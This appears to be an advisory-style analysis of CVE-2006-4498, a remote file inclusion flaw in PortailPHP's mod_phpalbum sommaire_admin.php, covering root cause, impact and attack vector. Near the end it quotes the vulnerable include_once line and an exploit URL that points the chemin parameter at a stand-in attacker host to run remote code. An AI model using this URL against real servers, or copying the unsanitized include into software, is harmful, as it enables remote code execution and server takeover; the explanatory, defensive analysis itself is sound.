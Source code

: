 Based on the provided content, here's an analysis of CVE-2006-4498:

**Root Cause of Vulnerability:**
The vulnerability is due to a lack of proper input sanitization in the `mod_phpalbum` module of PortailPHP. Specifically, the `chemin` parameter within the `sommaire_admin.php` file is used in an `include_once` statement without adequate validation.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The application directly includes a file based on user-supplied input from the `chemin` parameter. This allows an attacker to include arbitrary remote files.

**Impact of Exploitation:**
- **Remote Code Execution:** By including a malicious PHP file from a remote server, an attacker can execute arbitrary code on the vulnerable server. This can lead to full server compromise.

**Attack Vectors:**
- **HTTP GET Request:** The vulnerability is triggered by sending an HTTP GET request to the `sommaire_admin.php` file with the malicious `chemin` parameter.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable web server.
- **Malicious PHP File:** The attacker needs access to a web server hosting a malicious PHP file.

**Technical Details:**
The vulnerable code snippet is:
```php
include_once ($chemin."conf/code.php")
```
The exploit demonstrated is:
```
http://www.site.com/[path]/mod_phpalbum/sommaire_admin.php?chemin=http://evil_scripts?
```
This highlights that by setting the `chemin` parameter to a remote URL, the attacker can include arbitrary remote files.